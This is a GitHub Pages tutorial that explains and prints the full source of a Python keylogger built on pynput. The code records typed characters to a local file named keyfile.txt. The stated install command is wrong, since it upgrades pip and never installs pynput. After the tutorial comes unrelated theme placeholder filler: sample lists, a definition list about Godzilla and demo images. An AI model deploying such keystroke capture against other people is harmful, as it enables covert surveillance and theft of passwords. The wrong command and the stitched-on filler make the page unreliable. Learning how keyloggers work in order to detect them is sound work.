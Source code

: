 ```yaml
---
layout: default
---
```


# Installing And Importing The Required Module And Packages

For this project we need to install the _pynput_ package and make use of the _keyboard_ module.

The _keyboard_ moduel is required to monitor keyboard inputs. This allows for the program to listen for key presses.

> The package can be installed via the _Terminal_ using the following command:
>
> python.exe -m pip install --upgrade pip

Once the package is installed, we need to import the module using the following line:

```python
# Importing the necessary module
from pynput import keyboard
```

# Creating A Function

Firstly, we define a function named _keyPressed_ that takes a _key_ parameter which represents the key that is pressed.

A print line is added to see the real-time presses.

The function then creates a file named "keyfile.txt" in append mode so that previous content in the file is not overwritten. This file will keep a record of all keys pressed. The _with_ ensures the file is properly closed after the code is executed.

Inside the _try_ block, the code attempts to get the character representation of the pressed key and if successfull it writes this character to "keyfile.txt" file.

The _except_ is used in case there are any exception that occur (when the key pressed doesnt have a character representaion, like Shift or Ctrl) in which case it will print out the message "Error getting char".

```python
def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")
```

# Main Code

This block of code sets up the keyboard listener, starts it running in the background, by creating a new _Listener_ object from the _keyboard_ module. The _on_press_ parameter is set to the _keyPressed_ function we defined earlier. This means that every time a key is pressed, the _keyPressed_ function will be called with the key as its argument. The main program runs indefinitely (or until the user decides to end it by pressing Enter). This allows the script to continuously monitor and log keystrokes for as long as it's left running.


```python
# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# The Full Code

```python
# Import the keyboard module from pynput library
from pynput import keyboard


def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")


# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# Contents Of keyfile.txt

![Branching](keyloggerFile.png)

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And an ordered list:

1.  Item one
1.  Item two
1.  Item three
1.  Item four

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image

![Octocat](https://github.githubassets.com/images/icons/emoji/octocat.png)

### Large image

![Branching](https://guides.github.com/activities/hello-world/branching.png)


### Definition lists can be used with HTML syntax.

<dl>
<dt>Name</dt>
<dd>Godzilla</dd>
<dt>Born</dt>
<dd>1952</dd>
<dt>Birthplace</dt>
<dd>Japan</dd>
<dt>Color</dt>
<dd>Green</dd>
</dl>

```
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```
The final element.
```

